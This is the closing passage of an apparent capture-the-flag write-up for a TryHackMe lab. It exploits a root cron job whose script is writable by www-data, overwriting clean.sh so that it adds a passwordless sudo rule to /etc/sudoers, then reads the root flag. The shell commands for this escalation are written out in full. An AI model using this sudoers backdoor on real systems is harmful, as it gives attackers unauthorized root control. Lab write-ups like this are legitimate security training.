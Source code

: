 Yeah! Here is the proof that we have a misconfigured cron job, as the `clean.sh` script is scheduled to run regularly as *root* (UID=0), but `www-data` (our current user) is the owner. Thereby we can modify this script and elevate our privileges as follows:

```sh
www-data@dmv:/var/www/html$ echo "echo 'www-data ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers" > clean.sh
```

Eventually, all we have to do is to wait for the next execution of the script and... voilà! Our user finally got **root permissions**:

```sh
www-data@dmv:/var/www/html$ sudo ls /root
root.txt
www-data@dmv:/var/www/html$ sudo cat /root/root.txt
***root_flag***
```

---

### That's all folks

You can find the files related to this CTF at <https://github.com/tsumarios/CTF-Writeups/tree/master/THM/ConvertMyVideo>.
